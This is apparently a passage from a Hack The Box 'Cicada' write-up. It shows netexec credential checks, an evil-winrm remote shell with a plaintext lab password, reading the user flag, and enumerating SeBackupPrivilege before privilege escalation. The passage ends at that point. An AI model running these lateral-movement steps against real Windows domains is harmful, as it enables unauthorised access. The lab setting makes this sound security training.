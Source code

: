 Emily has permissions on the ADMIN$ and C$ share. This means I could use `PsExec` to gain access shell access to the box.
Instead of using PsExec, I rather use `Evil-Winrm`. 
First let's double check this finding by abusing `netexec` one more time

```bash
netexec winrm cicada -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.129.227.95   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.227.95   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

Notice I now used the protocol `winrm` within the `netexec` tool. Winrm stands for Windows remote Management and is achieved by using powershell. `Evil-Winrm` is the Winrm protocol ported to a ruby script with some cool additional features, for Hackers.

let's get into it.

## Winrm access and user flag

```bash
evil-winrm -i cicada -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
```

User flag has been achieved
```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> type ../Desktop/user.txt
1b966bb626cf59685b5ce3d22bb3fdfc
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

# Root
## Local Privilege Escalation
after looking at the privileges of the current user I noticed we have `SeBackupPrivilege` Enabled
```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
